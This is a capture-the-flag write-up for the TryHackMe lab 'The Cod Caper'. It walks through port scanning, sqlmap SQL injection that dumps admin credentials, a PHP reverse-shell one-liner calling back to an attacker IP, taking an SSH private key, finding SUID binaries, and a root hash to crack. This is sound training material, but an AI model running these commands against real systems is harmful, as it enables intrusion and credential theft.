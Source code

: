 # TryHackMe-The_Cod_Caper-WriteUp
My solution for the room called "The Cod Craper" in TryHackMe

## Host Enumeration 

<p> The first step is to see what ports and services are running on the target machine. 
Recommended Tool - nmap:
Useful flags: -p -sC -A </p>

<p> To answer this questions we need to scan the machine with nmap and analyze the results</p>

```nmap 
nmap -A <IP> -vv
```
![nmap](https://user-images.githubusercontent.com/67475596/103458587-e65f9400-4d09-11eb-85da-2f2e1c717200.png)

We can see that there are two port open, 22 with ssh service and port 80 with http


**Question 1:** How many ports are open on the target machine? <br>
<code> 2 </code>

**Question 2:** What is the http-title of the web server? <br>
<code> Apache2 Ubuntu Default Page: It works </code>

**Question 3:** What version is the ssh service? <br>
<code> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 </code>

**Question 4:** What is the version of the web server? <br>
<code> Apache/2.4.18 </code>

## Web Enumeration 

<p> Since the only services running are SSH and Apache, it is safe to assume that we should check out the web server first for possible vulnerabilities. One of the first things to do is to see what pages are available to access on the web server.
Recommended tool: gobuster
Useful flags: -x --url --wordlist 
	
Recommended wordlist: big.txt </p>

![default page](https://user-images.githubusercontent.com/67475596/103477313-f9cc3700-4dbd-11eb-877f-d61c426166f8.png)

<p>If we open the ip on a browser we can see that there is the default page of Apache2 Ubuntu <br>
Now let's scan the ip with gobuster for enumerate some directories and files.</p>

```bash 
gobuster dir -u http://IP/ -w big.txt -x .php,.html,.txt
```

![gobuster](https://user-images.githubusercontent.com/67475596/103477366-9262b700-4dbe-11eb-8479-c080708fcaa9.png)

Here we are.. we found the important file !


**Question 1 :** What is the name of the important file on the server? <br>
<code> administrator.php </code>

## Web Exploitation

<p>The admin page seems to give us a login form. In situations like this it is always worth it to check for "low-hanging fruit". In the case of login forms one of the first things to check for is SQL Injection. <br>

Recommended Tool: sqlmap

Useful Flags: -u --forms --dump -a

On the page IP/administrator.php we have an administrator login 

![login](https://user-images.githubusercontent.com/67475596/103477577-8c6dd580-4dc0-11eb-9179-4bf229f46f7e.png)

Let's try an SQL Injection with sqlmap <br>

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

but first we need to intercept the http request with burpsuite

![request](https://user-images.githubusercontent.com/67475596/103477728-cd1a1e80-4dc1-11eb-81f6-f7f78922c1bb.png)

now save it in a .txt file and then launch sqlmap

```bash
sqlmap -r request.txt -D users --tables
```


![sqlmap 1](https://user-images.githubusercontent.com/67475596/103477764-0c486f80-4dc2-11eb-8381-22f1d908bc69.png)

Mmmh... interesting we found some databases :)

![sqlmap 2](https://user-images.githubusercontent.com/67475596/103477797-592c4600-4dc2-11eb-98a8-ae36a56d3c15.png)

Let's check "users"

```bash
sqlmap -r request.txt -D users -T users --dump
```

![sqlmap 3](https://user-images.githubusercontent.com/67475596/103477822-9a245a80-4dc2-11eb-9629-02cb1b129a2b.png)

Here are the username and password !

![user pass sqlmap](https://user-images.githubusercontent.com/67475596/103477845-d9eb4200-4dc2-11eb-906a-61f035ae8e09.jpg)


**Question 1:** What is the admin username? <br>

**Question 2:** What is the admin password? <br>

**Question 3:** How many forms of SQLI is the form vulnerable to? <br>
<code> 3 </code>

![sql1](https://user-images.githubusercontent.com/67475596/103491639-d9d05e00-4e25-11eb-88be-fbc4db8cef33.png)
![sql2](https://user-images.githubusercontent.com/67475596/103491642-dc32b800-4e25-11eb-88b2-7026454113c4.png)
![sql3](https://user-images.githubusercontent.com/67475596/103491644-dccb4e80-4e25-11eb-8d12-2ab8077ca7ef.png)
</p>

## Command Execution

<p> It seems we have gained the ability to run commands! Since this is my old PC, I should still have a user account! Let's run a few test commands, and then try to gain access! </p>

<p> Now we have the credentials found with sqlmap <br>
Let's do the log in </p>

Ouch ... another form <br>
![run_command](https://user-images.githubusercontent.com/67475596/103491811-f8832480-4e26-11eb-99ef-e6f307ee9b77.png)

<p> Now let's try to get a reverse shell with netcat <br>
  but first prepare a php shell

```bash
php -r '$sock=fsockopen("YOUR IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![run command](https://user-images.githubusercontent.com/67475596/103491856-48fa8200-4e27-11eb-8d09-7379187a7886.png)

Don't forget to run netcat on the attacking machine

![run_netcat](https://user-images.githubusercontent.com/67475596/103491944-db028a80-4e27-11eb-9bd4-928918dcc68d.png)
</p>

If everything went well then we are inside the target machine

![netcat](https://user-images.githubusercontent.com/67475596/103492037-93c8c980-4e28-11eb-868b-df6845cd33a9.png)

**Question 1:** How many files are in the current directory? <br>
<code> 3 </code>

**Question 2:** Do I still have an account <br>
<code> yes </code>

**Question 3:** What is my ssh password? <br>
<p> To answer this question I've searched into the machine <br>
the path is the following </p>

> /var/hidden/pass

![pass ssh](https://user-images.githubusercontent.com/67475596/103492201-85c77880-4e29-11eb-9f81-0afbb665caa3.jpg)

## LinEnum

**Question 1:** What is the interesting path of the interesting suid file <br>

<p> My solution: <br>
first connect to the ssh with the ssh key found in </p>

> /home/pingu/.ssh/id_rsa

![ls - a](https://user-images.githubusercontent.com/67475596/103492276-fcfd0c80-4e29-11eb-8fcb-04dd1ae3199c.png)

![Inkedkey rsa_LI](https://user-images.githubusercontent.com/67475596/103492303-33d32280-4e2a-11eb-8cda-955e245bf62b.jpg)

put it in a .txt file and then log to the ssh

```bash
ssh -i ssh_key.txt pingu@IP
```

![ssh](https://user-images.githubusercontent.com/67475596/103492363-afcd6a80-4e2a-11eb-8319-386995457d0d.png)

Now we have to found the path of the suid file 
a SUID is a special file permission for executable files which enables other users to run the file with effective permissions of the file owner.

I've searched on the internet and I found this command that permits to list all binaries with SUID permission.

```bash
find / -perm -u=s -type f 2>/dev/null
```
![suidfiles](https://user-images.githubusercontent.com/67475596/103530465-c7870c00-4e87-11eb-9dba-cd558909834c.png)

## pwndbg

> No answer needed

## Binary-Exploitaion: Manually 

> No answer needed

## Binary Exploitation: The pwntools way

> No answer needed

 ## Finishing the job 
 
 Now that we have the password hashes, we can crack them and get the root password! Recall from the previous outputs that our root password hash is

> $6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.

Usage: hashcat {flags} {hashfile} {wordlist}

Hint: the hashcat mode is 1800

Enjoy
    
   
